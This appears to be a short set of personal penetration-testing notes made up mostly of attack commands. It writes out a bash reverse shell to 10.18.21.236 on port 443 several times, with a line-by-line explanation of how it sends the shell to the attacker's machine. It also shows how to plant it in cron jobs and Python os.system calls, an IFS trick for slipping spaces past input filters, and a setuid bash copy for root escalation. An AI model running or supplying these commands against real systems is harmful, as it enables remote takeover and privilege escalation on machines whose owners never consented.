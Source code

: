 
```sh
#!/bin/bash

bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```

Don't forget to make sure your script file is executable `chmod +x [script]`
cron won't run without both #! and +x

---

`${IFS%??}` = space as in `which${IFS%??}bash`

^works on bash, not on zsh

Reverse shell:
`/bin/bash -i >& /dev/tcp/10.18.21.236/443 0>&1`

-i   interactive
`>&`: redirects both standard output (stdout) and standard error (stderr)
`0>&1`: redirects the standard input (stdin) to the same destination as standard output. This ensures that any input intended for the shell is also sent over the network connection to the attacker's machine.

-l   executes `~/.bash_profile`, `~/.bash_login`, or `~/.profile` (in that order) and inherits environment variables set in those files

rev shell file:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```

To run with existing cronjob or similar:
```sh
#!/bin/bash
cp /bin/bash /tmp/mybash
chmod +xs /tmp/mybash
```
chmod +x /home/user/whatever.sh
/tmp/mybash -p

---
alternative

nano revsh.sh
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```
in python code run by system (like crontab)
```python
import os

os.system("touch /tmp/testfile")
os.system("bash /tmp/revsh.sh")
```

